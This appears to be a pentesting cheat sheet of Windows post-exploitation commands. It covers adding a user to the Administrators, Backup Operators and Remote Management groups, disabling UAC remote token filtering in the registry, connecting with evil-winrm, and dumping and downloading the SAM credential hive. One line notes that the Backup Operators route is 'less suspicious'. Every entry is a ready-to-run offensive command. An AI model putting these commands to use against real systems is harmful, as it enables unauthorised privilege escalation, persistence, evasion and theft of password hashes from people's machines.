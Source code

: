 # 🌆  Windows / Commands

This documents is for windows

---

## 🧚‍♀️ Admin perm via group

- Add administrator group for a user\
`net localgroup administrators <USER> /add`

- Add B.O to get SAM content and be less supicious\
`net localgroup "Backup Operators" <USER> /add`

- Add user to allow RDP\
`net localgroup "Remote Management Users" <USER> /add`

---

## 🛸 UAC

- Desactivate the option in reg to use admin with rdp\
`reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1`

---

## 🦉 Evil WinRm

- Connect to a windows machine\
`evil-winrm -i <IP> -u <USER> -p <PASSWORD>`

- Download the sam file\
`reg save hklm\sam sam.bak` \
`download sam.bak`


---
